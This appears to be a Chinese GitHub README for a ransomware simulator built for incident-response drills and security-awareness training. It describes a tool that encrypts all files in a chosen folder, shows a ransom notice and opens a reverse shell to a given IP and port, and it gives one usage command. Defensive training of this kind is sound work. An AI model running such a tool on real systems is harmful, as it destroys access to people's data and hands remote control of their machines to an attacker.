



## 使用场景
因安服需要进行应急演练及安全意识教育，不能对生产环境造成破坏，故使用模拟勒索进行演示，达到寓教于乐的效果

### 声明

本程序仅模拟勒索病毒环境，加密指定文件夹下的所有文件，在加密完成后显示勒索提示;提供IP及端口可进行反弹shell。 

仅供学习或用于安全意识培训提供参考，未经授权请勿进行破坏性测试，利用提供的信息造成的直接或间接损失，由使用者承担。

### 使用方法

使用参数-h查看


#### 给定IP端口反弹shell,加密指定文件夹中的文件

``` 
racket.exe -H IP -P port "C:\Users\Administrator\Desktop\test"
```

加密文件



反弹执行




#### 部分环境对python支持不友好,用C简单改写一个实现加密和弹窗功能 racket3.0.exe